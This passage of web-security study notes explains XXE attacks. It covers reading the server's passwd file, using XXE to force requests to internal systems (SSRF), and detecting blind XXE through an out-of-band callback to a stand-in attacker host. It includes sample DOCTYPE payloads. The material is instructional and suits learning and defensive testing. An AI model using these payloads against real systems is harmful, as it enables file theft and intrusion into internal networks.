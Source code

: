 It defines an external entity `&xxe;` whose value is the contents of the `passwd` file and uses the entity within the productId value, causing the app's response to include the contents of the file.

>[!info]
>There are typically a large number of data values within submitted XML in real apps. Try testing each data node in the XML individually to see whether it appears within the response.
# XXE to Perform SSRF

XXE can also be used to perform SSRF where the server-side app can be induced to make HTTP requests to any URL the server can access.

To exploit, define an external XML entity using the URL to target, and use the defined entity within a data value. If you can use it within a data value returned in a response, you can view the response from the URL within the app's response.

If not, it will be a blind SSRF attack. For example, the following XXE will make a back end HTTP request to an internal system:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

If a response comes back with something like the following:

```bash
Invalid product ID: latest
```

Try adding `latest` to the end of the URL and re-submit to slowly find the full path.
# Blind XXE

Blind XXE occurs where the app is vulnerable, but no values are returned. There are two ways to find and exploit blind XXE:

1. Triggering out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data.
2. Triggering XML parser errors in a way that errors contain sensitive data.
# Detecting Blind XXE using OAST Techniques

Try detecting blind XXE using the same techniques, but trigger an out-of-band network interaction to a system you control. As an example:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

It may cause the server to make a back-end HTTP request to the specified URL. Try using a Collaborator payload and monitor for and DNS and HTTP requests to the domain. If present, it means the XXE attack was successful.
# Blind XXE via XML Parameter Entities

Sometimes regular entities rare blocked by input validation or XML parser hardening. If so, try using XML parameter entities instead. Parameter entities can only be referenced elsewhere within the DTD. The declaration of an XML parameter entity includes the `%` character before the entity name:
